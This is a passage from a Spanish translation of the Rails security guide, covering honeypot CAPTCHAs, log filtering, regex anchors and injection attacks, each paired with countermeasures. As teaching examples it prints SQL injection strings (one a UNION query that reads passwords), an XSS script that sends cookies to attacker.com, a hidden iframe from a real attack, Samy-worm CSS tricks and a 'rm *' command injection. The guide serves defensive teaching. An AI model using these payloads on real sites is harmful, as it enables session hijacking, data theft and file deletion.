Ten en cuenta que los CAPTCHAs negativos solo son efectivos contra bots ingenuos y no serán suficientes para proteger aplicaciones críticas de bots dirigidos. Aún así, los CAPTCHAs negativos y positivos pueden combinarse para aumentar el rendimiento, por ejemplo, si el campo "honeypot" no está vacío (bot detectado), no necesitarás verificar el CAPTCHA positivo, lo que requeriría una solicitud HTTPS a Google ReCaptcha antes de calcular la respuesta.
Aquí hay algunas ideas sobre cómo ocultar campos honeypot mediante JavaScript y/o CSS:
- posicionar los campos fuera del área visible de la página
- hacer que los elementos sean muy pequeños o del mismo color que el fondo de la página
- dejar los campos mostrados, pero decirle a los humanos que los dejen en blanco
El CAPTCHA negativo más simple es un campo honeypot oculto. En el lado del servidor, verificarás el valor del campo: si contiene texto, debe ser un bot. Luego, puedes ignorar la publicación o devolver un resultado positivo, pero no guardar la publicación en la base de datos. De esta manera, el bot estará satisfecho y se moverá.
Puedes encontrar CAPTCHAs negativos más sofisticados en la publicación del blog de Ned Batchelder:
- Incluir un campo con la marca de tiempo UTC actual y verificarlo en el servidor. Si está demasiado lejos en el pasado, o si está en el futuro, el formulario es inválido.
- Aleatorizar los nombres de los campos
- Incluir más de un campo honeypot de todos los tipos, incluidos los botones de envío
Ten en cuenta que esto solo te protege de bots automáticos, bots dirigidos a medida no pueden ser detenidos por esto. Así que los CAPTCHAs negativos podrían no ser buenos para proteger formularios de inicio de sesión.
5.4 Registro
ADVERTENCIA: Dile a Rails que no ponga contraseñas en los archivos de registro.
Por defecto, Rails registra todas las solicitudes que se realizan a la aplicación web. Pero los archivos de registro pueden ser un gran problema de seguridad, ya que pueden contener credenciales de inicio de sesión, números de tarjetas de crédito, etc. Al diseñar un concepto de seguridad de aplicación web, también debes pensar en lo que sucederá si un atacante obtiene acceso (completo) al servidor web. Cifrar secretos y contraseñas en la base de datos será bastante inútil, si los archivos de registro los listan en texto claro. Puedes filtrar ciertos parámetros de solicitud de tus archivos de registro añadiéndolos a config.filter_parameters en la configuración de la aplicación. Estos parámetros serán marcados como [FILTERED] en el registro.
config.filter_parameters << :password
NOTA: Los parámetros proporcionados serán filtrados por coincidencia parcial de expresión regular. Rails agrega una lista de filtros predeterminados, incluidos :passw, :secret y :token, en el inicializador apropiado (initializers/filter_parameter_logging.rb) para manejar parámetros típicos de la aplicación como password, password_confirmation y my_token.
5.5 Expresiones Regulares
Un error común en las expresiones regulares de Ruby es hacer coincidir el inicio y el final de la cadena con ^ y $, en lugar de \A y \z.
Ruby utiliza un enfoque ligeramente diferente al de muchos otros lenguajes para hacer coincidir el inicio y el final de una cadena. Por eso, incluso muchos libros de Ruby y Rails lo hacen mal. Entonces, ¿cómo es esto una amenaza de seguridad? Supongamos que querías validar de manera suelta un campo de URL y usaste una expresión regular simple como esta:
/^https?:\/\/[^\n]+$/i
Esto puede funcionar bien en algunos lenguajes. Sin embargo, en Ruby ^ y $ coinciden con el inicio de línea y el final de línea. Y así, una URL como esta pasa el filtro sin problemas:
javascript:exploit_code();/*
http://hi.com
*/
Esta URL pasa el filtro porque la expresión regular coincide, la segunda línea, el resto no importa. Ahora imagina que teníamos una vista que mostraba la URL así:
link_to "Homepage", @user.homepage
El enlace parece inocente para los visitantes, pero cuando se hace clic, ejecutará la función JavaScript "exploit_code" o cualquier otro JavaScript que el atacante proporcione.
Para corregir la expresión regular, \A y \z deben usarse en lugar de ^ y $, así:
/\Ahttps?:\/\/[^\n]+\z/i
Dado que este es un error frecuente, el validador de formato (validates_format_of) ahora lanza una excepción si la expresión regular proporcionada comienza con ^ o termina con $. Si necesitas usar ^ y $ en lugar de \A y \z (lo cual es raro), puedes configurar la opción :multiline en true, así:
# el contenido debe incluir una línea "Mientras tanto" en cualquier parte de la cadena
validates :content, format: { with: /^Mientras tanto$/, multiline: true }
Ten en cuenta que esto solo te protege contra el error más común al usar el validador de formato, siempre debes tener en cuenta que ^ y $ coinciden con el inicio de línea y el final de línea en Ruby, y no el inicio y el final de una cadena.
5.6 Escalamiento de Privilegios
ADVERTENCIA: Cambiar un solo parámetro puede darle al usuario acceso no autorizado. Recuerda que cada parámetro puede ser cambiado, sin importar cuánto lo ocultes o lo ofusques.
El parámetro más común que un usuario podría manipular es el parámetro id, como en http://www.domain.com/project/1, donde 1 es el id. Estará disponible en params en el controlador. Allí, lo más probable es que hagas algo como esto:
@project = Project.find(params[:id])
Esto está bien para algunas aplicaciones web, pero ciertamente no si el usuario no está autorizado para ver todos los proyectos. Si el usuario cambia el id a 42, y no está permitido ver esa información, tendrá acceso a ella de todos modos. En su lugar, consulta los derechos de acceso del usuario, también:
@project = @current_user.projects.find(params[:id])
Dependiendo de tu aplicación web, habrá muchos más parámetros que el usuario pueda manipular. Como regla general, ningún dato de entrada del usuario es seguro, hasta que se demuestre lo contrario, y cada parámetro del usuario es potencialmente manipulado.
No te dejes engañar por la seguridad por ofuscación y la seguridad JavaScript. Las herramientas de desarrollo te permiten revisar y cambiar cada campo oculto de un formulario. JavaScript puede usarse para validar datos de entrada del usuario, pero ciertamente no para evitar que los atacantes envíen solicitudes maliciosas con valores inesperados. Las DevTools registran cada solicitud y pueden repetirlas y cambiarlas. Esa es una manera fácil de eludir cualquier validación de JavaScript. Y hay incluso proxies del lado del cliente que te permiten interceptar cualquier solicitud y respuesta de y hacia Internet.
6 Inyección
La inyección es una clase de ataques que introducen código o parámetros maliciosos en una aplicación web para ejecutarlo dentro de su contexto de seguridad. Ejemplos prominentes de inyección son el cross-site scripting (XSS) y la inyección SQL.
La inyección es muy complicada, porque el mismo código o parámetro puede ser malicioso en un contexto, pero totalmente inofensivo en otro. Un contexto puede ser un lenguaje de script, consulta o programación, el shell o un método de Ruby/Rails. Las siguientes secciones cubrirán todos los contextos importantes donde pueden ocurrir ataques de inyección. La primera sección, sin embargo, cubre una decisión arquitectónica en conexión con la Inyección.
6.1 Listas Permitidas Versus Listas Restringidas
NOTA: Al sanitizar, proteger o verificar algo, prefiere listas permitidas sobre listas restringidas.
Una lista restringida puede ser una lista de direcciones de correo electrónico malas, acciones no públicas o etiquetas HTML malas. Esto se opone a una lista permitida que enumera las buenas direcciones de correo electrónico, acciones públicas, buenas etiquetas HTML, y así sucesivamente. Aunque a veces no es posible crear una lista permitida (en un filtro de SPAM, por ejemplo), prefiere usar enfoques de listas permitidas:
- Usa
before_action except: [...]en lugar deonly: [...]para acciones relacionadas con la seguridad. De esta manera, no olvidarás habilitar comprobaciones de seguridad para acciones recién agregadas. - Permite
<strong>en lugar de eliminar<script>contra el Cross-Site Scripting (XSS). Consulta más detalles a continuación. - No intentes corregir la entrada del usuario usando listas restringidas:
- Esto hará que el ataque funcione:
"<sc<script>ript>".gsub("<script>", "") - Pero rechaza la entrada malformada
- Esto hará que el ataque funcione:
Las listas permitidas también son un buen enfoque contra el factor humano de olvidar algo en la lista restringida.
6.2 Inyección SQL
Gracias a métodos ingeniosos, esto difícilmente es un problema en la mayoría de las aplicaciones Rails. Sin embargo, este es un ataque muy devastador y común en aplicaciones web, por lo que es importante entender el problema.
6.2.1 Introducción
Los ataques de inyección SQL tienen como objetivo influir en las consultas de bases de datos manipulando parámetros de la aplicación web. Un objetivo popular de los ataques de inyección SQL es eludir la autorización. Otro objetivo es llevar a cabo manipulaciones de datos o leer datos arbitrarios. Aquí hay un ejemplo de cómo no usar datos de entrada del usuario en una consulta:
Project.where("name = '#{params[:name]}'")
Esto podría estar en una acción de búsqueda y el usuario puede ingresar el nombre de un proyecto que desea encontrar. Si un usuario malicioso ingresa ' OR 1) --, la consulta SQL resultante será:
SELECT * FROM projects WHERE (name = '' OR 1) --')
Los dos guiones inician un comentario que ignora todo lo que sigue. Por lo tanto, la consulta devuelve todos los registros de la tabla de proyectos, incluidos aquellos ciegos para el usuario. Esto se debe a que la condición es verdadera para todos los registros.
6.2.2 Eludir la Autorización
Por lo general, una aplicación web incluye control de acceso. El usuario ingresa sus credenciales de inicio de sesión y la aplicación web intenta encontrar el registro correspondiente en la tabla de usuarios. La aplicación otorga acceso cuando encuentra un registro. Sin embargo, un atacante puede posiblemente eludir esta verificación con inyección SQL. Lo siguiente muestra una consulta típica de base de datos en Rails para encontrar el primer registro en la tabla de usuarios que coincide con los parámetros de credenciales de inicio de sesión proporcionados por el usuario.
User.find_by("login = '#{params[:name]}' AND password = '#{params[:password]}'")
Si un atacante ingresa ' OR '1'='1 como el nombre, y ' OR '2'>'1 como la contraseña, la consulta SQL resultante será:
SELECT * FROM users WHERE login = '' OR '1'='1' AND password = '' OR '2'>'1' LIMIT 1
Esto simplemente encontrará el primer registro en la base de datos y otorgará acceso a este usuario.
6.2.3 Lectura No Autorizada
La declaración UNION conecta dos consultas SQL y devuelve los datos en un conjunto. Un atacante puede usarlo para leer datos arbitrarios de la base de datos. Tomemos el ejemplo anterior:
Project.where("name = '#{params[:name]}'")
Y ahora inyectemos otra consulta usando la declaración UNION:
') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --
Esto resultará en la siguiente consulta SQL:
SELECT * FROM projects WHERE (name = '') UNION
SELECT id,login AS name,password AS description,1,1,1 FROM users --'
El resultado no será una lista de proyectos (porque no hay un proyecto con un nombre vacío), sino una lista de nombres de usuario y su contraseña. ¡Así que con suerte cifraste las contraseñas de manera segura en la base de datos! El único problema para el atacante es que el número de columnas debe ser el mismo en ambas consultas. Por eso la segunda consulta incluye una lista de unos (1), que siempre será el valor 1, para coincidir con el número de columnas en la primera consulta.
Además, la segunda consulta renombra algunas columnas con la declaración AS para que la aplicación web muestre los valores de la tabla de usuarios.
6.2.4 Contramedidas
Ruby on Rails tiene un filtro incorporado para caracteres especiales de SQL, que escapará ' , " , carácter NULL y saltos de línea. Usar Model.find(id) o Model.find_by_something(something) aplica automáticamente esta contramedida. Pero en fragmentos SQL, especialmente en fragmentos de condiciones (where("...")), los métodos connection.execute() o Model.find_by_sql(), debe aplicarse manualmente.
En lugar de pasar una cadena, puedes usar manejadores posicionales para sanear cadenas contaminadas como esta:
Model.where("zip_code = ? AND quantity >= ?", entered_zip_code, entered_quantity).first
El primer parámetro es un fragmento SQL con signos de interrogación. El segundo y tercer parámetro reemplazarán los signos de interrogación con el valor de las variables.
También puedes usar manejadores nombrados, se tomarán los valores del hash usado:
values = { zip: entered_zip_code, qty: entered_quantity }
Model.where("zip_code = :zip AND quantity >= :qty", values).first
Además, puedes dividir y encadenar condicionales válidos para tu caso de uso:
Model.where(zip_code: entered_zip_code).where("quantity >= ?", entered_quantity).first
Nota que las contramedidas mencionadas anteriormente solo están disponibles en instancias de modelo. Puedes
probar sanitize_sql en otros lugares. Hazlo un hábito pensar en las consecuencias de seguridad
al usar una cadena externa en SQL.
6.3 Cross-Site Scripting (XSS)
La vulnerabilidad de seguridad más extendida y una de las más devastadoras en aplicaciones web es XSS. Este ataque malicioso inyecta código ejecutable del lado del cliente. Rails proporciona métodos auxiliares para defenderse de estos ataques.
6.3.1 Puntos de Entrada
Un punto de entrada es una URL vulnerable y sus parámetros donde un atacante puede iniciar un ataque.
Los puntos de entrada más comunes son publicaciones de mensajes, comentarios de usuarios y libros de visitas, pero títulos de proyectos, nombres de documentos y páginas de resultados de búsqueda también han sido vulnerables, en casi cualquier lugar donde el usuario pueda ingresar datos. Pero la entrada no necesariamente tiene que provenir de cuadros de entrada en sitios web, puede estar en cualquier parámetro de URL, obvio, oculto o interno. Recuerda que el usuario puede interceptar cualquier tráfico. Las aplicaciones o proxies del lado del cliente facilitan cambiar solicitudes. También hay otros vectores de ataque como anuncios publicitarios.
Los ataques XSS funcionan así: Un atacante inyecta algo de código, la aplicación web lo guarda y lo muestra en una página, que luego se presenta a una víctima. La mayoría de los ejemplos de XSS simplemente muestran una caja de alerta, pero es más poderoso que eso. XSS puede robar la cookie, secuestrar la sesión, redirigir a la víctima a un sitio web falso, mostrar anuncios para beneficio del atacante, cambiar elementos en el sitio web para obtener información confidencial o instalar software malicioso a través de agujeros de seguridad en el navegador web.
Durante la segunda mitad de 2007, se informaron 88 vulnerabilidades en navegadores Mozilla, 22 en Safari, 18 en IE y 12 en Opera. El informe de amenazas de seguridad global de Symantec también documentó 239 vulnerabilidades de complementos de navegador en los últimos seis meses de 2007. Mpack es un marco de ataque muy activo y actualizado que explota estas vulnerabilidades. Para los hackers criminales, es muy atractivo explotar una vulnerabilidad de inyección SQL en un marco de aplicación web e insertar código malicioso en cada columna de texto de la tabla. En abril de 2008, más de 510,000 sitios fueron hackeados de esta manera, entre ellos el gobierno británico, las Naciones Unidas y muchos más objetivos de alto perfil.
6.3.2 Inyección de HTML/JavaScript
El lenguaje XSS más común es, por supuesto, el lenguaje de scripting del lado del cliente más popular, JavaScript, a menudo en combinación con HTML. Escapar la entrada del usuario es esencial.
Aquí está la prueba más directa para comprobar XSS:
<script>alert('Hello');</script>
Este código JavaScript simplemente mostrará una caja de alerta. Los siguientes ejemplos hacen exactamente lo mismo, solo en lugares muy poco comunes:
<img src="javascript:alert('Hello')">
<table background="javascript:alert('Hello')">
6.3.2.1 Robo de Cookies
Estos ejemplos no hacen ningún daño hasta ahora, así que veamos cómo un atacante puede robar la cookie del usuario (y así secuestrar la sesión del usuario). En JavaScript puedes usar la propiedad document.cookie para leer y escribir la cookie del documento. JavaScript aplica la política de mismo origen, lo que significa que un script de un dominio no puede acceder a las cookies de otro dominio. La propiedad document.cookie contiene la cookie del servidor web de origen. Sin embargo, puedes leer y escribir esta propiedad, si incrustas el código directamente en el documento HTML (como ocurre con XSS). Inyecta esto en cualquier lugar de tu aplicación web para ver tu propia cookie en la página de resultados:
<script>document.write(document.cookie);</script>
Para un atacante, por supuesto, esto no es útil, ya que la víctima verá su propia cookie. El siguiente ejemplo intentará cargar una imagen desde la URL http://www.attacker.com/ más la cookie. Por supuesto, esta URL no existe, por lo que el navegador no mostrará nada. Pero el atacante puede revisar los archivos de registro de acceso de su servidor web para ver la cookie de la víctima.
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
Los archivos de registro en www.attacker.com leerán así:
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
Puedes mitigar estos ataques (de la manera obvia) agregando la bandera httpOnly a las cookies, de modo que document.cookie no pueda ser leído por JavaScript. Las cookies solo HTTP pueden usarse desde IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4 y Chrome 1.0.154 en adelante. Pero otros navegadores más antiguos (como WebTV e IE 5.5 en Mac) pueden hacer que la página no se cargue. Ten en cuenta que las cookies aún serán visibles usando Ajax, sin embargo.
6.3.2.2 Desfiguración
Con la desfiguración de páginas web, un atacante puede hacer muchas cosas, por ejemplo, presentar información falsa o atraer a la víctima al sitio del atacante para robar la cookie, credenciales de inicio de sesión u otros datos sensibles. La forma más popular es incluir código de fuentes externas mediante iframes:
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
Esto carga HTML y/o JavaScript arbitrario de una fuente externa y lo incrusta como parte del sitio. Este iframe se toma de un ataque real en sitios italianos legítimos usando el marco de ataque Mpack. Mpack intenta instalar software malicioso a través de agujeros de seguridad en el navegador web, con mucho éxito, el 50% de los ataques tienen éxito.
Un ataque más especializado podría superponer todo el sitio web o mostrar un formulario de inicio de sesión, que se vea igual que el original del sitio, pero que transmita el nombre de usuario y la contraseña al sitio del atacante. O podría usar CSS y/o JavaScript para ocultar un enlace legítimo en la aplicación web y mostrar otro en su lugar que redirija a un sitio web falso.
Los ataques de inyección reflejada son aquellos donde la carga útil no se almacena para presentarla a la víctima más adelante, sino que se incluye en la URL. Especialmente los formularios de búsqueda no escapan la cadena de búsqueda. El siguiente enlace presentó una página que decía que "George Bush nombró a un niño de 9 años como presidente...":
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
<script src=http://www.securitylab.ru/test/sc.js></script><!--
6.3.2.3 Contramedidas
Es muy importante filtrar la entrada maliciosa, pero también es importante escapar la salida de la aplicación web.
Especialmente para XSS, es importante hacer filtrado de entrada permitida en lugar de restringida. El filtrado de listas permitidas establece los valores permitidos en oposición a los valores no permitidos. Las listas restringidas nunca están completas.
Imagina que una lista restringida elimina "script" de la entrada del usuario. Ahora el atacante inyecta "<scrscriptipt>", y después del filtro, "<script>" permanece. Las versiones anteriores de Rails usaban un enfoque de lista restringida para los métodos strip_tags(), strip_links() y sanitize(). Así que este tipo de inyección era posible:
strip_tags("some<<b>script>alert('hello')<</b>/script>")
Esto devolvía "some<script>alert('hello')</script>", lo que hace que un ataque funcione. Es por eso que un enfoque de lista permitida es mejor, usando el método actualizado de Rails 2 sanitize():
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
Esto solo permite las etiquetas dadas y hace un buen trabajo, incluso contra todo tipo de trucos y etiquetas malformadas.
Tanto Action View como Action Text construyen sus auxiliares de sanitización sobre la gema rails-html-sanitizer.
Como segundo paso, es una buena práctica escapar toda la salida de la aplicación, especialmente al volver a mostrar la entrada del usuario, que no ha sido filtrada de entrada (como en el ejemplo del formulario de búsqueda anterior). _Usa el método html_escape() (o su alias h()) para reemplazar los caracteres de entrada HTML &, ", < y > por sus representaciones no interpretadas en HTML (&, ", < y >).
6.3.2.4 Obfuscación y Codificación de Inyección
El tráfico de red se basa principalmente en el alfabeto limitado occidental, por lo que surgieron nuevas codificaciones de caracteres, como Unicode, para transmitir caracteres en otros idiomas. Pero, esto también es una amenaza para las aplicaciones web, ya que el código malicioso puede ocultarse en diferentes codificaciones que el navegador web podría ser capaz de procesar, pero la aplicación web podría no. Aquí hay un vector de ataque en codificación UTF-8:
<img src=javascript:a
lert('XSS')>
Este ejemplo muestra una caja de mensaje. Será reconocido por el filtro sanitize() anterior, sin embargo. Una gran herramienta para ofuscar y codificar cadenas, y así "conocer a tu enemigo", es el Hackvertor. El método sanitize() de Rails hace un buen trabajo para defenderse de ataques de codificación.
6.3.3 Ejemplos del Submundo
Para entender los ataques de hoy en aplicaciones web, es mejor echar un vistazo a algunos vectores de ataque del mundo real.
Lo siguiente es un extracto del gusano Js.Yamanner@m de Yahoo! Mail. Apareció el 11 de junio de 2006 y fue el primer gusano de interfaz de correo web:
<img src='http://us.i1.yimg.com/us.yimg.com/i/us/nt/ma/ma_mail_1.gif'
target=""onload="var http_request = false; var Email = '';
var IDList = ''; var CRumb = ''; function makeRequest(url, Func, Method,Param) { ...
Los gusanos explotan un agujero en el filtro HTML/JavaScript de Yahoo, que generalmente filtra todos los objetivos y atributos onload de las etiquetas (porque puede haber JavaScript). Sin embargo, el filtro se aplica solo una vez, por lo que el atributo onload con el código del gusano permanece en su lugar. Este es un buen ejemplo de por qué los filtros de listas restringidas nunca están completos y por qué es difícil permitir HTML/JavaScript en una aplicación web.
Otro gusano de correo web de prueba de concepto es Nduja, un gusano de dominio cruzado para cuatro servicios de correo web italianos. Encuentra más detalles en el documento de Rosario Valotta. Ambos gusanos de correo web tienen el objetivo de recolectar direcciones de correo electrónico, algo con lo que un hacker criminal podría ganar dinero.
En diciembre de 2006, se robaron 34,000 nombres de usuario y contraseñas reales en un ataque de phishing de MySpace. La idea del ataque era crear una página de perfil llamada "login_home_index_html", por lo que la URL se veía muy convincente. Se usó HTML y CSS especialmente diseñados para ocultar el contenido genuino de MySpace de la página y en su lugar mostrar su propio formulario de inicio de sesión.
6.4 Inyección CSS
La inyección CSS en realidad es inyección JavaScript, porque algunos navegadores (IE, algunas versiones de Safari y otros) permiten JavaScript en CSS. Piensa dos veces antes de permitir CSS personalizado en tu aplicación web.
La inyección CSS se explica mejor con el conocido gusano Samy de MySpace. Este gusano enviaba automáticamente una solicitud de amistad a Samy (el atacante) simplemente visitando su perfil. En pocas horas, tenía más de 1 millón de solicitudes de amistad, lo que creó tanto tráfico que MySpace se cayó. Lo siguiente es una explicación técnica de ese gusano.
MySpace bloqueaba muchas etiquetas, pero permitía CSS. Así que el autor del gusano puso JavaScript en CSS así:
<div style="background:url('javascript:alert(1)')">
Así que la carga útil está en el atributo de estilo. Pero no se permiten comillas en la carga útil, porque las comillas simples y dobles ya se han usado. Pero JavaScript tiene una función práctica eval() que ejecuta cualquier cadena como código.
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
La función eval() es una pesadilla para los filtros de entrada de listas restringidas, ya que permite que el atributo de estilo oculte la palabra "innerHTML":
alert(eval('document.body.inne' + 'rHTML'));
El siguiente problema fue que MySpace filtraba la palabra "javascript", por lo que el autor usó "java<NEWLINE>script" para evitar esto:
<div id="mycode" expr="alert('hah!')" style="background:url('java↵script:eval(document.all.mycode.expr)')">
Otro problema para el autor del gusano fueron los tokens de seguridad CSRF. Sin ellos, no podía enviar una solicitud de amistad a través de POST. Lo evitó enviando un GET a la página justo antes de agregar un usuario y analizando el resultado para el token CSRF.
Al final, obtuvo un gusano de 4 KB, que inyectó en su página de perfil.
La propiedad CSS moz-binding resultó ser otra forma de introducir JavaScript en CSS en navegadores basados en Gecko (Firefox, por ejemplo).
6.4.1 Contramedidas
Este ejemplo, nuevamente, mostró que un filtro de lista restringida nunca está completo. Sin embargo, como el CSS personalizado en aplicaciones web es una característica bastante rara, puede ser difícil encontrar un buen filtro CSS permitido. Si deseas permitir colores o imágenes personalizados, puedes permitir que el usuario los elija y construir el CSS en la aplicación web. Usa el método sanitize() de Rails como modelo para un filtro CSS permitido, si realmente necesitas uno.
6.5 Inyección Textile
Si deseas proporcionar formato de texto diferente al HTML (debido a la seguridad), usa un lenguaje de marcado que se convierta a HTML en el lado del servidor. RedCloth es un lenguaje de este tipo para Ruby, pero sin precauciones, también es vulnerable a XSS.
Por ejemplo, RedCloth traduce _test_ a <em>test<em>, lo que hace que el
texto sea en cursiva. Sin embargo, RedCloth no filtra etiquetas HTML inseguras por defecto:
RedCloth.new('<script>alert(1)</script>').to_html
# => "<script>alert(1)</script>"
Usa la opción :filter_html para eliminar HTML que no fue creado por el procesador Textile.
RedCloth.new('<script>alert(1)</script>', [:filter_html]).to_html
# => "alert(1)"
Sin embargo, esto no filtra todo el HTML, algunas etiquetas quedarán (por diseño), por ejemplo <a>:
RedCloth.new("<a href='javascript:alert(1)'>hello</a>", [:filter_html]).to_html
# => "<p><a href="javascript:alert(1)">hello</a></p>"
6.5.1 Contramedidas
Se recomienda usar RedCloth en combinación con un filtro de entrada permitido, como se describe en las contramedidas contra XSS.
6.6 Inyección Ajax
NOTA: Se deben tomar las mismas precauciones de seguridad para las acciones Ajax que para las "normales". Sin embargo, hay al menos una excepción: La salida debe escaparse en el controlador ya, si la acción no renderiza una vista.
Si usas el plugin in_place_editor, o acciones que devuelven una cadena, en lugar de renderizar una vista, debes escapar el valor de retorno en la acción. De lo contrario, si el valor de retorno contiene una cadena XSS, el código malicioso se ejecutará al regresar al navegador. Escapa cualquier valor de entrada usando el método h().
6.7 Inyección de Línea de Comando
NOTA: Usa parámetros de línea de comando proporcionados por el usuario con precaución.
Si tu aplicación tiene que ejecutar comandos en el sistema operativo subyacente, hay varios métodos en Ruby: system(command), exec(command), spawn(command) y `command`. Tendrás que tener especial cuidado con estas funciones si el usuario puede ingresar todo el comando o una parte de él. Esto se debe a que en la mayoría de los shells, puedes ejecutar otro comando al final del primero, concatenándolos con un punto y coma (;) o una barra vertical (|).
user_input = "hello; rm *"
system("/bin/echo #{user_input}")
# imprime "hello", y elimina archivos en el directorio actual
Una contramedida es usar el método system(command, parameters) que pasa los parámetros de línea de comando de manera segura.
system("/bin/echo", "hello; rm *")
# imprime "hello; rm *" y no elimina archivos
6.7.1 Vulnerabilidad de Kernel#open
Kernel#open ejecuta un comando del sistema operativo si el argumento comienza con una barra vertical (|).
open('| ls') { |file| file.read }
# devuelve la lista de archivos como una cadena a través del comando `ls`
Las contramedidas son usar File.open, IO.open o URI#open en su lugar. No ejecutan un comando del sistema operativo.
File.open('| ls') { |file| file.read }
# no ejecuta el comando `ls`, solo abre el archivo `| ls` si existe
IO.open(0) { |file| file.read }
# abre stdin. no acepta una cadena como argumento
require 'open-uri'
URI('https://example.com').open { |file| file.read }
# abre el URI. `URI()` no acepta `| ls`
6.8 Inyección de Encabezado
ADVERTENCIA: Los encabezados HTTP se generan dinámicamente y bajo ciertas circunstancias, la entrada del usuario puede ser inyectada. Esto puede llevar a redirecciones falsas, XSS o división de respuestas HTTP.
Los encabezados de solicitud HTTP tienen un campo Referer, User-Agent (software cliente) y Cookie, entre otros. Los encabezados de respuesta, por ejemplo, tienen un código de estado, Cookie y un
Comentarios
Se te anima a ayudar a mejorar la calidad de esta guía.
Por favor contribuye si ves algún error tipográfico o errores fácticos. Para comenzar, puedes leer nuestra sección de contribuciones a la documentación.
También puedes encontrar contenido incompleto o cosas que no están actualizadas. Por favor agrega cualquier documentación faltante para main. Asegúrate de revisar Guías Edge primero para verificar si los problemas ya están resueltos o no en la rama principal. Revisa las Guías de Ruby on Rails para estilo y convenciones.
Si por alguna razón detectas algo que corregir pero no puedes hacerlo tú mismo, por favor abre un issue.
Y por último, pero no menos importante, cualquier tipo de discusión sobre la documentación de Ruby on Rails es muy bienvenida en el Foro oficial de Ruby on Rails.